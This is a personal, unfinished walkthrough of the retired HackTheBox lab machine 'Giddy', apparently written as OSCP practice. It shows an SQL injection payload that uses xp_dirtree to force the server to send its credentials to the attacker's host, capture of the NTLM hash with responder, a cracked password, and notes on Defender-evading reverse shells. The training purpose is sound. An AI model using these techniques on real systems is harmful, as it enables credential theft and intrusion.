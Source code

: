 # Giddy Walkthrough

Name: Giddy
Date:  
Difficulty:  Medium
Description:  
Better Description:  
Goals:  OSCP Prep - Ippsec handholding to feel mentored
Learnt:


First the video is three years old and more tools are avaliable to me than to him way back then

![faceofmadness](Screenshots/faceofmaddness.png)

## Recon

The time to live(ttl) indicates its OS. It is a decrementation from each hop back to original ping sender. Linux is < 64, Windows is < 128.
![ping](HackTheBox/Retired-Machines/Giddy/Screenshots/ping.png)

Added 
```bash
echo '10.129.96.140 giddy' | sudo tee -a /etc/hosts
```

![view-cert](Screenshots/view-cert.png)

Check the details!

Directory busting with feroxbuster:
![mvc](Screenshots/mvc-dir.png)

Went to the page /mvc/Search.aspx and insta-search for`'`:
![sqlerror](Screenshots/sql-error.png)

One thing not noticed in the video `C:\Users\jnogueira\Downloads\owasp10\1-owasp-top10-m1-injection-exercise-files\before\1-Injection\Product.aspx.`
Ippsec demonstrated a more through methodology of testing for `--` aswell to see if it causes an error. Not using `sqlmap` till I finish OSCP.. so I tried it as this box is not on OSCP pwnlist got with id-sqli.req: 

![sqlimap](id-sqli.png)

## Exploit

Arbituary File Reading with xp_dirtree
```sql
declare @q varchar(200); set @q ='\$ip\IppsecIsAwesome\test';exec master.dbo.xp_dirtree @q;--+
```

![catching](ncat.png)

```bash
responder -I tun0
```

![stacy](hashcapture.png)

Paused video to see if I could try pass the hash. I could not.

![cracked](cracked.png)

```
xNnWo6272k7x
```


## Foothold

![](unifivideo.png)

## PrivEsc

This directory is writable, see the 43390.txt poc.
![](icacls-unifi-video.png)
![msfail](xcopythemsfshell.png)

But..
![wd](windowsdefendstrikesagain.png)
Windows Defender removes it... 

Then I went on a research spree on C Sharp,  Undetectable C sharp Reverse Shells and the best Windows-OS VM for ethical hacking for Archive. 33:00 paused...
